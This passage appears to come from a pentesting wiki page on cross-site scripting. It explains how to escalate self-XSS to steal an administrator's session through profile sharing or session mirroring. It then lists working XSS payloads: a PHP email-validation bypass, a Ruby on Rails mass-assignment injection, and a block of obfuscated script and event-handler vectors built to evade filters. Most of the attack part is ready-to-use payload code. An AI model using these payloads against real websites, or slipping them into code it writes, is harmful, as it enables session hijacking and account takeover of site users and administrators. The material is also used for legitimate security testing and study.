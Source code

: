 You can find a great abuse of this technique in [**this blog post**](https://nokline.github.io/bugbounty/2024/06/07/Zoom-ATO.html).

### Sending your session to the admin

Maybe an user can share his profile with the admin and if the self XSS is inside the profile of the user and the admin access it, he will trigger the vulnerability.

### Session Mirroring

If you find some self XSS and the web page have a **session mirroring for administrators**, for example allowing clients to ask for help an in order for the admin to help you he will be seeing what you are seeing in your session but from his session.

You could make the **administrator trigger your self XSS** and steal his cookies/session.

## Other Bypasses

### Normalised Unicode

You could check is the **reflected values** are being **unicode normalized** in the server (or in the client side) and abuse this functionality to bypass protections. [**Find an example here**](../unicode-injection/index.html#xss-cross-site-scripting).

### PHP FILTER_VALIDATE_EMAIL flag Bypass

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Ruby-On-Rails bypass

Due to **RoR mass assignment** quotes are inserted in the HTML and then the quote restriction is bypassed and additoinal fields (onfocus) can be added inside the tag.\
Form example ([from this report](https://hackerone.com/reports/709336)), if you send the payload:

```
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```

The pair "Key","Value" will be echoed back like this:

```
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```

Then, the onfocus attribute will be inserted and XSS occurs.

### Special combinations

```html
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg////////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
```
